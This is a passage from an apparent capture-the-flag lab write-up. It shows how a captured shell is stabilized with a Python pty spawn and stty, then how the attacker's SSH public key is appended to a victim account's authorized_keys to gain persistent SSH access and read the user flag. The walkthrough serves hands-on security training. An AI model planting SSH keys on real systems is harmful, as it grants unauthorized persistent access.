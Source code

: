 ```
|*..    . . .     |
|.o .    + .      |
|.   ...o.o       |
+----[SHA256]-----+
```

Now we can search for the key and copy it to our working dir :

```
└─$ cat /home/user/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5CPIfXujh1QKKXqanmQiO5bsibAXPNnnBj8Dx4yXTj user@kali

```

## Stabilize the shell

For the [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) first we need to execute `export TERM=xterm` then `python3 -c 'import pty;pty.spawn("/bin/bash")'` then ctrl+z and `stty raw -echo;fg` and reset + enter

Now we echo our public key into the authorised :

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5CPIfXujh1QKKXqanmQiO5bsibAXPNnnBj8Dx4yXTj user@Kali
"  >>  autorized_keys
```

## SSH

Now we can access comte [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) and cat the flag, ssh will automatically use our key :

```
comte@ip-10-10-8-70:~$ ls
snap  user.txt
comte@ip-10-10-8-70:~$ cat user.txt
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⣶⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⠋⠀⠉⠛⠻⢶⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠟⠁⣠⣴⣶⣶⣤⡀⠈⠉⠛⠿⢶⣤⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⡿⠃⠀⢰⣿⠁⠀⠀⢹⡷⠀⠀⠀⠀⠀⠈⠙⠻⠷⣶⣤⣀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠋⠀⠀⠀⠈⠻⠷⠶⠾⠟⠁⠀⠀⣀⣀⡀⠀⠀⠀⠀⠀⠉⠛⠻⢶⣦⣄⡀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠟⠁⠀⠀⢀⣀⣀⡀⠀⠀⠀⠀⠀⠀⣼⠟⠛⢿⡆⠀⠀⠀⠀⠀⣀⣤⣶⡿⠟⢿⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⡿⠋⠀⠀⣴⡿⠛⠛⠛⠛⣿⡄⠀⠀⠀⠀⠻⣶⣶⣾⠇⢀⣀⣤⣶⠿⠛⠉⠀⠀⠀⢸⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⠟⠀⠀⠀⠀⢿⣦⡀⠀⠀⠀⣹⡇⠀⠀⠀⠀⠀⣀⣤⣶⡾⠟⠋⠁⠀⠀⠀⠀⠀⣠⣴⠾⠇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡿⠁⠀⠀⠀⠀⠀⠀⠙⠻⠿⠶⠾⠟⠁⢀⣀⣤⡶⠿⠛⠉⠀⣠⣶⠿⠟⠿⣶⡄⠀⠀⣿⡇⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣶⠟⢁⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⠾⠟⠋⠁⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⣼⡇⠀⠀⠙⢷⣤⡀
⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⣾⡏⢻⣷⠀⠀⠀⢀⣠⣴⡶⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣷⣤⣤⣴⡟⠀⠀⠀⠀⠀⢻⡇
⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⠀⠀⠙⠛⢛⣋⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠁⠀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⠀⠀⣠⣾⠟⠁⠀⢀⣀⣤⣤⡶⠾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣤⣤⣤⣤⣤⡀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⣠⣾⣿⣥⣶⠾⠿⠛⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣶⠶⣶⣤⣀⠀⠀⠀⠀⠀⢠⡿⠋⠁⠀⠀⠀⠈⠉⢻⣆⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠛⠉⠁⠀⢀⣠⣴⣶⣦⣀⠀⠀⠀⠀⠀⠀⠀⣠⡿⠋⠀⠀⠀⠉⠻⣷⡀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀⠀⠘⣿⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠀⠀⠀⣴⡟⠋⠀⠀⠈⢻⣦⠀⠀⠀⠀⠀⢰⣿⠁⠀⠀⠀⠀⠀⠀⢸⣷⠀⠀⠀⢻⣧⠀⠀⠀⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⢿⡆⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⣸⡟⠀⠀⠀⠀⠙⢿⣦⣄⣀⣀⣠⣤⡾⠋⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⠘⣿⣄⣀⣠⣴⡿⠁⠀⠀⠀⠀⠀⠀⢿⣆⠀⠀⠀⢀⣠⣾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠉⠉⠀⠀⠀⣀⣤⣴⠿⠃
⠀⠸⣷⡄⠀⠀⠀⠈⠉⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠻⠿⠿⠛⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⡶⠟⠋⠉⠀⠀⠀
⠀⠀⠈⢿⣆⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⣶⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢨⣿⠀⠀⠀⠀⠀⠀⣼⡟⠁⠀⠀⠀⠹⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣠⡾⠋⠀⠀⠀⠀⠀⠀⢻⣇⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢠⣾⠋⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣤⣤⣤⣴⡿⠃⠀⠀⣀⣤⣶⠾⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⣀⣠⣴⡾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⡇⠀⠀⠀⠀⣀⣤⣴⠾⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢻⣧⣤⣴⠾⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠘⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀


```